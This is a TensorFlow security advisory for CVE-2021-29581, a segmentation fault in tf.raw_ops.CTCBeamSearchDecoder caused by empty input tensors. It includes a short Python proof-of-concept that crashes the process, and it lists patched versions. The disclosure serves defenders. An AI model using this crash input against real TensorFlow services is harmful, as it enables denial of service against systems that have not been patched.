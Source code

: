 ## TFSA-2021-069: Segfault in `CTCBeamSearchDecoder`

### CVE Number
CVE-2021-29581

### Impact
Due to lack of validation in `tf.raw_ops.CTCBeamSearchDecoder`, an attacker can
trigger denial of service via segmentation faults:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[18, 8, 0], dtype=tf.float32)
sequence_length = tf.constant([11, -43, -92, 11, -89, -83, -35, -100],
shape=[8], dtype=tf.int32)
beam_width = 10
top_paths = 3
merge_repeated = True

tf.raw_ops.CTCBeamSearchDecoder(
  inputs=inputs, sequence_length=sequence_length, beam_width=beam_width,
  top_paths=top_paths, merge_repeated=merge_repeated)
```

The
[implementation](https://github.com/galeone/tensorflow/blob/a74768f8e4efbda4def9f16ee7e13cf3922ac5f7/tensorflow/core/kernels/ctc_decoder_ops.cc#L68-L79)
fails to detect cases when the input tensor is empty and proceeds to read data
from a null buffer.

### Patches
We have patched the issue in GitHub commit
[b1b323042264740c398140da32e93fb9c2c9f33e](https://github.com/galeone/tensorflow/commit/b1b323042264740c398140da32e93fb9c2c9f33e).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
